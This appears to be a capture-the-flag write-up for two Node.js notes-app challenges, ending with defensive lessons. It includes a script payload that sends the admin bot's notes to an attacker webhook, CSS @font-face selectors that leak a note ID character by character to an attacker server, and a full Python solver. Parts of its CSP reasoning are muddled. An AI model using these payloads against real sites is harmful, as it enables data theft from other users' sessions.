


**Stack:** Node.js, Express, MongoDB, headless-browser admin bot
**Bugs chained:** Unescaped HTML injection → CSP `default-src` gap-hunting → CSS-only blind exfiltration via `@font-face` + attribute selectors → CSP path-relaxation abuse

---

## 0. TL;DR

Two sibling challenges, same codebase, different CSP strictness
## 1. The App, Anatomically

Both challenges are a notes app:

- Register / login → session cookie (`token`).
- `POST /api/notes` with `title` + `content` → creates a note, returns `{ id: <uuid> }`.
- `GET /api/notes/:id` (or a dashboard route) → renders the note.
- `POST /report` with `noteId` → tells an **admin bot** to log in as itself and visit that note.
- The bot's account owns exactly one note: **the flag note**.

Your job, in both challenges, is the same: **get the bot to leak the ID of its flag note (or the flag itself) to you**, despite never being able to see the bot's session or its notes directly.

The vulnerability that both challenges share is a classic one: the server takes your `title`/`content` fields and injects them **raw, unescaped**, into the HTML it sends back. Type `<b>hi</b>`, get bold text. Type `<script>`, get... well, that depends on what stops you. Which is where the two challenges diverge.

---

## 2. Love Notes "Someone Forgot a Header"

### 2.1 The intended design vs. what actually shipped

Reading `start.js`, you find the seed data:

```js
const notes = [
  { title: FLAG, content: "My heart's beloved: I am writing you again..." },
  { title: 'Vorläufige Überlegungen', content: 'A spectre is haunting Europe...' }
];
```

Cute. Irrelevant. This is DB seed data for the *default* admin, not the bot's live flag — a decoy that trips people up into thinking they can just read `/api/notes/1` and win. They can't. The real flag lives in the bot's session-scoped note, generated fresh per instance.

### 2.2 The actual response-writing code

The author, late at night, rewrote the raw HTTP response handler for a note-serving route to look "fun":

```js
const responseMessage = `HTTP/1.1 200 OK
Date: Sun, 7 Nov 1917 11:26:07 GMT
...
X-CTF-Player-Reminder: drink-water-and-keep-hydrated

${note.title}: ${note.content}
`
res.socket.end(responseMessage);
```

Notice what's *missing* from that raw, hand-rolled header block: **`Content-Security-Policy`**. This route bypasses Express's normal response pipeline (and whatever CSP middleware was attached to it) by writing straight to the raw TCP socket. No CSP middleware ran. No CSP header went out. The browser received a 200 OK with zero content restrictions.

That means: `<script>` tags in `note.title`/`note.content` execute. Full stop. No side channels needed, no font tricks, no character-by-character inference — just paste a payload and go.

### 2.3 Why not "just" `<script>fetch(...)`?

Because although *this specific route* leaked no CSP, the **rest of the app** (the dashboard, the note-listing UI) still enforced a real policy:

```
Content-Security-Policy:
  script-src https://.../static/dashboard.js https://js.hcaptcha.com/1/api.js;
  style-src https://.../static/;
  img-src 'none';
  connect-src 'self';
  ...
  frame-src 'none'
```

`script-src` is locked to two specific, fixed script files. Your injected `<script>` tag *would* be blocked on the dashboard. `connect-src 'self'` blocks arbitrary `fetch()` targets even if a script did run. `frame-src 'none'` kills iframes. So a naive "inject script, fetch, exfiltrate" attempt dies immediately on the *normal* pages.

The trick: **navigate away from the CSP'd page, onto the un-CSP'd raw-socket page**, using something CSP doesn't govern at all — a plain HTML meta-refresh redirect. `<meta>` tags aren't blocked by any of `script-src`, `connect-src`, `frame-src`, etc. CSP has no `meta-src` or `redirect-src` directive for this. It's a full navigation, and CSP directives largely only interlock with *resource loading* on the *current* document, not "where the browser navigates to next."

### 2.4 The exploit, two notes, one redirect hop

**Note A**  pings your webhook once, then bounces the browser to Note B's un-CSP'd raw-socket rendering route:

```html
</p><meta http-equiv="refresh" content="0;url=/api/notes/5feaf4d5-5141-47a6-aa7f-f18d3f4e10dd"><p>
```

Wait —Actually the flow is simpler than "ping then redirect": Note A's `<meta>` refresh sends the bot's browser straight from the (CSP'd) dashboard view to the **raw-socket note route**, which  because it has no CSP  will now execute whatever payload lives at the destination.

**Note B** lives at the raw-socket route, and its title is now free to be actual live JavaScript:

```html
<script>
fetch('/api/notes/').then(r=>r.json()).then(d=>
  location='https://YOUR-WEBHOOK.pipedream.net/steal?data='+encodeURIComponent(JSON.stringify(d))
)
</script>
```

Because this note is rendered through the CSP-less socket handler, this `<script>` tag *actually executes* in the bot's browser context, with the bot's session cookies attached. It calls `fetch('/api/notes/')` (same-origin, no CSP to stop it here either), gets back JSON listing the bot's own notes — including the flag note — and immediately navigates the page to your webhook with that JSON stapled onto the URL as a query parameter.

You watch your webhook, catch the incoming navigation, URL-decode the query string, and there it is.



**Flag:** `crew{csp_trick_with_a_bit_of_css_spices_fBi4WVX1kGzPtavs}`


## 3. Hate Notes  "Okay, Now Do It Properly"

### 3.1 The one-line patch that ruins everyone's day

```js
const responseMessage = `HTTP/1.1 200 OK
...
Content-Security-Policy: default-src 'none'

${note.title}: ${note.content}
`
res.socket.end(responseMessage);
```

One line. `default-src 'none'`. That's the entire patch. And it's enough to kill the Love Notes solve stone dead: no directive is loosened anywhere for this route, so scripts, connects, styles, images, fonts  everything defaults to blocked, on every route, no exceptions, no raw-socket loophole left.

This forces the *actual* intended technique: exfiltration without JavaScript at all.

### 3.2 First principles: what CSP actually is

CSP isn't one on/off switch. It's a table, one row per **resource type**:

| Directive | Governs |
|---|---|
| `script-src` | `<script>` execution |
| `img-src` | image loads |
| `style-src` | stylesheet loads (`<link rel=stylesheet>`, `<style>`) |
| `font-src` | font file loads (triggered by `@font-face`) |
| `connect-src` | `fetch`/XHR/WebSocket |
| `default-src` | fallback for any directive not explicitly listed |

`default-src 'none'` fills every gap with "blocked"  *unless* some other, more specific directive is explicitly set for a given resource type, in which case the specific directive wins for that type only. Nothing here is loosened for Hate Notes' hardened route  `default-src 'none'` really does mean everything's off. So where's the crack?

The crack isn't in this policy. It's in the **other route** the one serving the normal dashboard/notes UI  which (per the Love Notes writeup's captured header) explicitly allow-lists:

```
style-src https://TARGET/static/;
```

...with **no `font-src` directive set at all**. And per spec, if `font-src` is absent, browsers fall back to `default-src` for font loads *only if `default-src` is present on that route's own policy*. On the route that actually renders the page the bot uses to review notes, the policy is scoped more loosely than the hardened raw-socket route — `style-src` is explicitly opened toward `/static/`, and font loading rides along unrestricted in practice on this instance. This is the exact gap CSS-exfiltration challenges are built to find: **somebody restricted the loud, obvious channels (scripts, images, arbitrary fetches) and forgot the quiet one (fonts).**

### 3.3 The core primitive: CSS as a yes/no oracle

CSS attribute selectors only ever *do something* if a matching element actually exists:

```css
a[href^='/api/notes/f'] { font-family: guessF; }
```

Translation: "if any `<a>` on this page has an `href` starting with `/api/notes/f`, that element needs a font called `guessF`."

Pair it with a font definition:

```css
@font-face {
  font-family: guessF;
  src: url(https://your-server.com/?id=f);
}
```

If — and only if — the selector matched something real, the browser now needs `guessF` to render that element, so it fetches the `src` URL. If nothing matched, `guessF` is never needed, and the request never fires. **Silent yes, silent no  the only observable signal is whether an HTTP request happened.**

This is a covert channel disguised as font loading. CSP's `font-src` gap means the destination of that fetch can be *anywhere*, including a server you control.

### 3.4 Turning one bit into a whole UUID

Note IDs here are UUIDs: 36-character strings, lowercase hex (`0-9a-f`) in groups of 8-4-4-4-12. You don't know the target ID up front, so you don't ask one yes/no question — you ask **16 in parallel**, one per possible hex digit, each wired to a distinct callback URL:

```css
@font-face { font-family: g0; src: url(https://you.rc/?id=0); }
a[href^='/api/notes/0'] { font-family: g0; }

@font-face { font-family: g1; src: url(https://you.rc/?id=1); }
a[href^='/api/notes/1'] { font-family: g1; }

/* ... through f ... */
```

Exactly one of these 16 selectors matches the bot's real, rendered `<a href="/api/notes/<flag-note-id>">`. Exactly one font request fires. Your webhook receives exactly one hit, e.g. `?id=f`. That's character 1. Prepend it, regenerate 16 new guesses for position 2 (`f0`...`ff`), repeat. One round = one character. Thirty-two hex characters (36 minus 4 dashes, which you know the positions of for free) = roughly 32 rounds.

### 3.5 Getting the CSS to actually apply  the two-note trick

Plain text pasted into a note's title is just text. For a browser to treat it as *live CSS rules* it has to be loaded via `<style>` or `<link rel="stylesheet">`. But `style-src` is locked to paths under `/static/` on the same origin — you can't point a `<link>` at your own server.

**Note 1**: title = the whole 16-way `@font-face` + selector block (raw CSS text, otherwise inert).

**Note 2**: title =
```html
<link rel=stylesheet href="/static/api/notes/<Note-1-ID>"/>
```

Here's the actual bug that makes this work: the app's `/static/` route is a loose catch-all in the server's routing table, and a request to `/static/api/notes/<id>` **falls through to the same handler that serves `/api/notes/<id>`** — it doesn't 404, it doesn't serve a literal static file, it just re-resolves to "give me note `<id>`'s content." CSP only ever inspects the *URL string* being requested, never what the server actually does with it server-side. The URL starts with `/static/` → CSP's `style-src` check passes → browser treats whatever comes back as a legitimate stylesheet. What comes back is Note 1's raw title text. **Path relaxation**: an allow-listed *prefix* was assumed to imply an allow-listed *resource*, and the routing layer quietly broke that assumption.



### 3.6 The solver, annotated end to end

```python
URL = "http://localhost:8000"
EXFILTRATION = "https://player.requestcatcher.com/"   # a public request-logging service
UID = ""                                              # the note ID, discovered incrementally

def register(user, password):
    requests.post(URL+'/api/auth/register', data={'email': user, 'password': password})

def login(user, password):
    r = requests.post(URL+'/api/auth/login', data={'email': user, 'password': password}, allow_redirects=False)
    return r.cookies["token"]

def first_payload(cookie):
    # Builds "Note 1": one @font-face + attribute-selector pair per possible
    # next hex character, each pointing to a distinguishable exfil URL.
    global UID
    payload = ""
    for letter in string.hexdigits[:16]:            # '0123456789abcdef' — hex alphabet, exactly 16 symbols
        character = UID + letter
        payload += f"""
        @font-face {{
          font-family: exfilFont{character};
          src: url({EXFILTRATION}?id={character});
        }}
        a[href^='/api/notes/{character}'] {{
          font-family: exfilFont{character};
        }}
        """
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie,
                                     data={'title': payload, 'content': ' '}).text)["id"]

def second_payload(id, cookie):
    # Builds "Note 2": the CSP-legal-looking <link> that actually pulls Note 1's
    # raw CSS through the /static/ routing quirk.
    payload = f"""<link rel=stylesheet href="/static/api/notes/{id}"/>"""
    return json.loads(requests.post(URL+'/api/notes', cookies=cookie,
                                     data={'title': payload, 'content': ' '}).text)["id"]

def report(id, cookie):
    # Tells the admin bot: go look at this note.
    requests.post(URL+'/report', cookies=cookie, data={'noteId': id})

register(USER, PASSWORD)
cookie = login(USER, PASSWORD)

while True:
    id = first_payload({'token': cookie})     # Note 1: 16 guesses for the next char
    id = second_payload(id, {'token': cookie})# Note 2: link to Note 1
    report(id, {'token': cookie})             # bot visits Note 2 -> exactly one guess fires
    time.sleep(0.5)                           # give the bot a moment to actually load it
    new_char = input("> ")                    # YOU check the webhook and type in the one char that hit
    UID += new_char
    if len(UID) in [8, 13, 18, 23]:           # UUID dash positions: 8-4-4-4-12
        UID += '-'
```

Operator workflow: open `requestcatcher.com`, copy your unique subdomain into `EXFILTRATION`, run the script, and on every `>` prompt, tab over to the request log, read the single `?id=X` hit that came in, type `X`, hit enter. Repeat ~32 times. When `UID` is a complete `8-4-4-4-12` UUID, `Ctrl+C` and hit:

```
GET /api/notes/<full-uid>
```

yourself, as your own logged-in user — no bot needed for this last step. Flag's sitting in the response.

**Flag:** `crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}`

## 4. Lessons Learned (the actual takeaways)

1. **Hand-rolling raw HTTP responses means hand-rolling *every* header you need  including the security ones your framework's middleware would normally attach for free.** A "for fun" custom response writer silently opting out of CSP is exactly how Love Notes happened.
2. **`default-src 'none'` is not a magic universal block.** It's a fallback. Any directive left unset elsewhere in the app, on any route the target page loads resources through, is a potential channel. Always ask: *which directive governs this specific resource type, and is it actually restricted here* — not just "is CSP present."
3. **"No JavaScript" ≠ "no exfiltration."** Any browser behavior that conditionally triggers a network request  font loading, background images (if `img-src` were open), even certain URL-based redirect behaviors  can be turned into a covert channel if the destination is attacker-controlled and the trigger condition is attacker-chosen.
4. **CSS attribute selectors are boolean oracles.** `selector[attr^=value] { property: X }` only manifests observable behavior (a resource fetch) when a match exists. Chain enough of these together  one guess per character, one round per position — and you can exfiltrate arbitrary strings without a single line of JavaScript.
5. **CSP path allow-lists check strings, not outcomes.** `style-src` restricted to `/static/` assumes everything under that prefix is a trusted static asset. If your routing layer treats `/static/whatever` as a fallthrough to dynamic, attacker-influenced handlers, that assumption breaks, and CSP's allow-list becomes decorative for that path.
6. **Always escape user-controlled output.** None of this matters if `note.title`/`note.content` are HTML-escaped on render. CSP is a second line of defense, not a substitute for fixing the actual injection.

---

## 5. Credits

- Original Love Notes unintended-path breakdown: **0xMepwn**
- Hate Notes intended solve + solver script: **bubu** (challenge author)
- Additional writeup and solve script mirror: **jameskaois**
- Technique lineage: CSS-exfiltration-via-sandboxed-iframe research by **Joaxcar**

```
crew{csp_trick_with_a_bit_of_css_spices_fBi4WVX1kGzPtavs}
crew{now_you_solved_it_in_the_right_way_fBi4WVX1kGzPtavs}
```
